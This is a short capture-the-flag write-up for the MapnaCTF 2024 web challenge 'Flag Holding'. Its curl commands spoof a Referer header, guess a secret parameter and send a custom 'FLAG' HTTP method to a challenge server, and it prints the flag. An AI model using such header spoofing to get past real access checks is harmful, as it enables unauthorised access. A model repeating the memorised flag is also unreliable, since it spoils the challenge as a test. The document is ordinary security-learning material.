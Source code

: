 ```yaml
---
title: "Flag Holding"
description: "Hopefully you know how web works..."
pubDate: 2024-01-22
ctf: "MapnaCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-mapnactf/icon.png"
---
```


Initially with the webserver given I visit the page, and this particular portion of text is displayed:

You are not coming from "http://flagland.internal/”

I move to cURL to do this challenge, and determine this is probably referring to the `Referer` header.

```
$ curl "http://18.184.219.56:8080/" -H "Referer: http://flagland.internal/"
Unspecified "secret".
```

Interesting, I make a new parameter `secret` and set it with a value of `1`.

```
$ curl "http://18.184.219.56:8080/?secret=1" -H "Referer: http://flagland.internal/"
Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->
```

The hint is likely to be filled with `http`.

```
$ curl "http://18.184.219.56:8080/?secret=http" -H "Referer: http://flagland.internal/"
Sorry we don't have "GET" here but we might have other things like "FLAG”.
```

I change the method from `GET` to `FLAG`.

```
$ curl -X FLAG "http://18.184.219.56:8080/?secret=http" -H "Referer: http://flagland.internal/"
MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}
```

There we go!

Flag: `MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}`